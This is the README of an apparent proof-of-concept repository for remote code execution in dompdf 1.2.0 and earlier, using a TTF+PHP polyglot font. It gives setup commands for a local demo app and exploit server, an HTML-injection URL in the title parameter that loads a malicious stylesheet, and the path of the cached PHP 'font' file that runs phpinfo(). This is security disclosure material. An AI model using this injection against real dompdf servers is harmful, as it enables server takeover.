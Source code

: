 # RCE exploit for dompdf <= 1.2.0

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.

For more details, please visit https://positive.security/blog/dompdf-rce

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute phpinfo()
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
